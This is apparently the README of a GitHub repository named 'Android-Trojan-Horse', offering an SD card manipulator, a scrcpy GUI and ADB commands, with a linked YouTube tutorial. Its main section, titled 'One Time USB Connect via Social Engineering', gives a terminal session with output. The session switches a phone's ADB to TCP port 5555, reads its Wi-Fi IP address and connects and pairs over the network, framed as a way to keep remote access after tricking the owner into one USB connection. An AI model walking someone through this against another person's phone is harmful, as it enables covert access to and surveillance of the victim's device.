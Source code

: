 
># `SD Card Manipulator` || `scrcpy GUI` || `ADB commands`
>
>![images-2 fill size_2000x1334 v1611688517](https://github.com/imvickykumar999/Android-Trojan-Horse/assets/50515418/8806c02a-a7a3-425b-a241-51917965dc75)

    Watch Tutorial on YouTube: https://www.youtube.com/watch?v=HD-c2H3NoW8

<br>

<table>
<tr>

<td>
keyevent.json absent
</td>

<td>
keyevent.json present
</td>

</tr>

<tr>
<td><img src="https://github.com/imvickykumar999/Android-Trojan-Horse/assets/50515418/3e951fd0-de62-486f-b8c7-9debd0998b78" width="100%" alt="keyevent_absent"></td>
<td><img src="https://github.com/imvickykumar999/Android-Trojan-Horse/assets/50515418/5789b05a-0bf4-4d71-9e6b-fcacf670ea7d" width="100%" alt="keyevent_present"></td>
</tr>

</table>

<br>

# `One Time USB Connect via Social Engineering`

```bash
>>> adb devices
    * daemon not running; starting now at tcp:5037
    * daemon started successfully
    List of devices attached

>>> adb tcpip 5555
    restarting in TCP mode port: 5555

>>> adb devices
    List of devices attached
    RZ8N60JN0EE     device

>>> adb shell "ip addr show wlan0 | grep -e wlan0$ | cut -d\" \" -f 6 | cut -d/ -f 1"
    192.168.0.103

>>> adb connect 192.168.0.103:5555
    connected to 192.168.0.103:5555

>>> adb pair 192.168.0.103:40535
    Enter pairing code: 230630
    Successfully paired to 192.168.0.103:40535 [guid=adb-RZ8N60JN0EE-DzkZ1Q]
```
